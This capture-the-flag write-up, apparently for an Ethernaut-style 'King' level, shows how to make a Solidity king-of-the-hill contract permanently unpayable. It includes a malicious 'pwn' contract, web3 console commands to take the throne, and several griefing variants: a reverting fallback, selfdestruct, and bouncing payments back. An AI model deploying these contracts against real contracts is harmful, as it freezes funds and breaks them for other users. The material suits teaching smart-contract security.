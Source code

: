 The aim is to grief this contract:

```solidity
receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
}
```

Only the third line can fail.
A malicious contract can be crafted in several ways to achieve this:

0) not processing payments
1) refusing payments
2) destroying the contract
3) returning the payment

But first the contract has to become king.

## Becoming the king

```solidity
function pwn(address target) public payable {
    payable(target).transfer(msg.value);
}
```

```js
// deploy the malicious contract before this
abi = '[{"inputs":[],"stateMutability":"nonpayable","type":"constructor"},{"inputs":[{"internalType":"address","name":"target","type":"address"}],"name":"pwn","outputs":[],"stateMutability":"payable","type":"function"}]';
kong = new web3.eth.Contract(JSON.parse(abi), '0x8f985a6Ac1B47433a53f71Bc7F1dC1008E73c058');
// 1000000000000000
(await contract.prize()).toNumber()
// '0x3049C00639E6dfC269ED1451764a046f7aE500c6', the level
await contract._king()
// become the king
kong.methods.pwn(contract.address).send({from: player, value: 1000000000000000, gas: 900000}, function(error, data) {console.log(data);});
// '0x8f985a6Ac1B47433a53f71Bc7F1dC1008E73c058', the malicious contract
await contract._king()
```

## Not processing payments

This solution actually requires no code!
Since the contract has neither fallback nor `receive` functions, it cannot process payments and will throw.

## Refusing payments

Now the contract processes payments but fails explicitely:

```solidity
function () external payable {
    revert("fail");
}
```

## Deleting the king contract

Another way is to remove the malicious contract so that it cannot be called:

```solidity
function pwn() public {
    selfdestruct(payable(0x0));
}
```

But you can still send money to the address, even though the contract has been removed!
It fails to fail.

## Returning the payment

The reentrancy vulnerability actually fails because of the gas limit on the first `transfer` in the original contract.

Still it would have been implemented by bouncing back the payment when receiving it:

```solidity
function () external payable {
    payable(TARGET).call{value:msg.value}("");
}
```
